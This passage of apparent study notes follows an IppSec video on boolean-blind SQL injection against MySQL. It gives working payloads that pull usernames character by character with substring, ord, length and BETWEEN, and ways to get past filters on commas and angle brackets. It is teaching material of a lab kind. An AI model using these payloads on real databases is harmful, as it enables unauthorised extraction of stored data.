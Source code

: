 ```sql
-- substring start with 1 NOT 0
' or (select substring(usernames,1,3) from users limit 1 offset 0) like 'ippsec'-- -
```
But commas are also bad characters so use the keyword `FROM` and `FOR`
```sql
--(select substring(usernames,OFFSET,NUMBER_OF_CHARACTERS)
-- substring start with 1 NOT 0
' or (select substring(usernames FROM 1 FOR 3) from users limit 1 offset 0) like 'ippsec'-- -
```
Ippsec likes working with decimal values as we can then use greater than and equal to an decimal value using MySQL's `ord()` to covert a string to decimal value
```sql
--(select substring(usernames,OFFSET,NUMBER_OF_CHARACTERS)
-- substring start with 1 NOT 0 
-- `man ascii` for list
' or (select ord(substring(usernames FROM 1 FOR 3)) from users limit 1 offset 0) like 65-- -
```
But < > are bad characters... so we use the keyword `between` and `and`
```sql
--(select substring(usernames,OFFSET,NUMBER_OF_CHARACTERS)
-- substring start with 1 NOT 0 
-- `man ascii` for list
' or (select ord(substring(usernames FROM 2 FOR 1)) from users limit 1 offset 0) between 113 and 200 -- -
```
Lengths of data with `length()`
```sql
' or (select length(usernames) from users limit 1 offset 0) like 1 -- -
```

22:45 - automate the extraction!

## References

[Original Pentest Monkey Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
[IppSec Youtube - Automating Boolean SQL Injection and Evading Filters](https://www.youtube.com/watch?v=mF8Q1FhnU70)
